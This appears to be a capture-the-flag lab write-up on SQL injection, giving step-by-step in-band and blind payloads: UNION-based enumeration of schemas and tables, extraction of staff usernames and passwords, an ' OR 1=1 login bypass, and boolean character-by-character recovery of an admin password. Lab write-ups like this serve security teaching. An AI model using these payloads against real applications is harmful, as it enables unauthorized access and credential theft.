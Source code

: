 
## *Task 1*
>	- Structured Query Language
## *Task 2*
>	- DBMS
>	- Table
## *Task 3*
>	- SELECT
>	- UNION
>	- INSERT
## *Task 4*
>	- ;
## *In-Band SQLi*
>	- Using `'` to verify SQLi vulnerability.![](sqli-detected.png)
>	- Getting number of columns using `UNION SELECT NULL` and adding nulls till the there is no error.![](union-cols-1.png)![](union-cols-2.png)
>	- Changing the id to a non existent article and then getting the database name using `UNION SELECT NULL,NULL,database()`.
> - ![](db-name.png)
>	- Getting the table names using `UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.![](table-names.png)
>	- Get column names from staff_users table using `UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`.![](staff-col-names.png)
>	- Get usernames and passwords using `UNION SELECT NULL,NULL,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.![](staff-creds.png)
>	- Answer the question and get the flag.![](flag-1.png)
## *Blind SQLi*
>	- Using `' OR 1=1;--` in the password field to bypass the login.![](flag-2.png)
>	- Using `admin123' UNION SELECT NULL;--` to get the column names.![](bool-1.png)![](bool-2.png)
>	-  Using `'UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--` to get the database name.![](bool-3.png)
>	- Change the value till a true occurs.![](bool-4.png)
>	- Keep adding characters till we get the entire name.![](bool-5.png)
>	- Now use the found name to enumerate the tables.
>	- Using `' UNION SELECT 1,2,3 FROM infromation_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'u%';--`.![](bool-6.png)
>	- Again keep adding characters till the table name is found.![](bool-7.png)
>	- Confirm the table name using `' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name = 'users';--`.![](bool-8.png)
>	- Now, enumerate the column names in the users table using `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%';--`.
>	- Column `id` is found.![](bool-9.png)
>	- Now remove that found column name `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%' AND column_name != 'id';--`.
>	- Column username is found.![](bool-10.png)
>	- Column password is found.![](bool-11.png)
>	- Now, enumerate the users table for the username admin using `' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--`.![](bool-12.png)
>	- Admin user is found.![](bool-13.png)
>	- Enumerating for his password using `' UNION SELECT 1,2,3 FROM users WHERE username = 'admin' AND password LIKE 'a%';--`.![](bool-14.png)
>	- Confirming the password.![](bool-15.png)
>	- Using the found credentials to get the flag.![](flag-3.png)
